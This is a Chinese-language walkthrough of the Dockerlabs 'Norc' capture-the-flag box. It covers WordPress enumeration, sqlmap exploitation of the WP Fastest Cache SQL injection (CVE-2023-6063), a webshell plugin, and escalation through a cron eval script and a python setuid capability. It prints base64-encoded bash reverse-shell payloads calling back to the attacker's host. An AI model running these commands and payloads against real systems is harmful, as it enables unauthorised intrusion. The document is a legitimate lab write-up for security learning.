 ```yaml
---
title: "Dockerlabs-Norc"
date: 2025-02-24
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 172.17.0.2 -sV  -A                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 21:13 CST
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 8c:5c:7b:fe:79:92:7a:f9:85:ec:a5:b9:27:25:db:85 (ECDSA)
|_  256 ba:69:95:e3:df:7e:42:ec:69:ed:74:9e:6b:f6:9a:06 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Did not follow redirect to http://norc.labs/?password-protected=login&redirect_to=http%3A%2F%2F172.17.0.2%2F
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.11 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.22 seconds
```

将**norc.labs**添加到**/etc/hosts**

在抓包的时候发现似乎存在**wordpress**服务，可以看到**Cookie**的样式

![](./images/image-107.png)

访问**/wp-admin**的时候自动就跳转到了登录页面

![](./images/image-108.png)

使用**WPscan**并没有任何效果

## FFUF

```
[root@kali] /home/kali/Desktop  
❯ ffuf -u "http://norc.labs/FUZZ" -w ./Wordpress-BruteForce-List/WPfuzz.txt -mc 200 -o result.txt
```

然后查看是否使用了插件

```
[root@kali] /home/kali/Desktop  
❯ cat result.txt | jq | grep -n "plugin"
1196:        "FUZZ": "wp-admin/includes/plugin-install.php"
1208:      "url": "http://norc.labs/wp-admin/includes/plugin-install.php",
1232:        "FUZZ": "wp-admin/includes/plugin.php"
1244:      "url": "http://norc.labs/wp-admin/includes/plugin.php",
1664:        "FUZZ": "wp-admin/js/plugin-install.js"
1676:      "url": "http://norc.labs/wp-admin/js/plugin-install.js",
3266:        "FUZZ": "/wp-content/plugins/wp-fastest-cache/readme.txt"
3278:      "url": "http://norc.labs//wp-content/plugins/wp-fastest-cache/readme.txt",
```

![](./images/image-109.png)

## CVE-2023-6063

关注到**wp-fastest-cache**的版本号是**1.2.1**

搜索到了一个**SQL注入**的漏洞

- [motikan2010/CVE-2023-6063-PoC: CVE-2023-6063 (WP Fastest Cache < 1.2.2 - UnAuth SQL Injection)](https://github.com/motikan2010/CVE-2023-6063-PoC)

```
[root@kali] /home/kali/Desktop  
❯ sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 --schema    
```

![](./images/image-110.png)

可以看到存在时间盲注漏洞

```
[root@kali] /home/kali/Desktop  
❯ sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=3 -D wordpress -T wp_users -C user_login,user_pass,user_email --dump
```

![](./images/image-112.png)

但是无法进行破解，不过得到一个子域名**oledockers**，进入后得到了密码

![](./images/image-113.png)

## www-data

采用[Dockerlabs-WalkingCMS - HYH](https://www.hyhforever.top/dockerlabs-walkingcms/)里的方式制作插件

安装后访问，**POST**传参执行命令

```
http://norc.labs/wp-content/plugins/health-check/webshell.php

#POST
cmd=echo%20%22YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS8xMDAgMD4mMQ==%22%7Cbase64%20-d%7Cbash
```

![](./images/image-114.png)

## User

在**kvzlx**的目录中发现一个脚本，但是其中的**.wp-encrypted.txt**并没有在目录中发现，**/tmp/decoded.txt**也是空的

```
www-data@955ef139e3e6:/home/kvzlx$ ls -al
ls -al
total 24
drwxr-xr-x 1 kvzlx kvzlx 4096 Jul  1  2024 .
drwxr-xr-x 1 root  root  4096 Jul  1  2024 ..
-rw-r--r-- 1 kvzlx kvzlx  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 kvzlx kvzlx 3526 Apr 23  2023 .bashrc
-rwxr--r-- 1 kvzlx kvzlx  164 Jun  9  2024 .cron_script.sh
-rw-r--r-- 1 kvzlx kvzlx  807 Apr 23  2023 .profile
www-data@955ef139e3e6:/home/kvzlx$ cat .cron*
cat .cron*
#!/bin/bash
ENC_PASS=$(cat /var/www/html/.wp-encrypted.txt)
DECODED_PASS=$(echo $ENC_PASS | base64 -d)

echo $DECODED_PASS > /tmp/decoded.txt

eval "$DECODED_PASS"
```

上传一下**pspy**跟踪进程

- [DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy?tab=readme-ov-file)

![](./images/image-115.png)

可以发现**UID**为**1000**的用户在运行这个脚本，也就是**kvzlx**本人

```
www-data@955ef139e3e6:/var/www$ getent passwd 1000
getent passwd 1000
kvzlx:x:1000:1000::/home/kvzlx:/bin/bash
```

因此可以写入进行**.wp-encrypted.txt**提权，因为**.cron\_script.sh**无法写入

```
www-data@955ef139e3e6:/var/www/html$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzIwMCAwPiYx" >> .wp-encrypted.txt
```

监听得到**kvzlx**的反弹**shell**

## Root

在**linpeas**输出中发现，**/opt/python3**可以修改**uid**

![](./images/image-117.png)

查找**GTFOBins**👇

- [python | GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities)

![](./images/image-116.png)

## Summary

`User`：扫描得到**wordpress**缓存插件存在**SQL时间盲注**漏洞，得到子域名后拿到密码，登录后台从而写入木马反弹**Shell**。这里可以上传**pspy**来追踪进程发现存在用户的**定时任务**，根据脚本写入反弹语句。

`Root`：**python**可以设置当前用户的**uid**，可以设置为**root**权限启动**/bin/sh**。

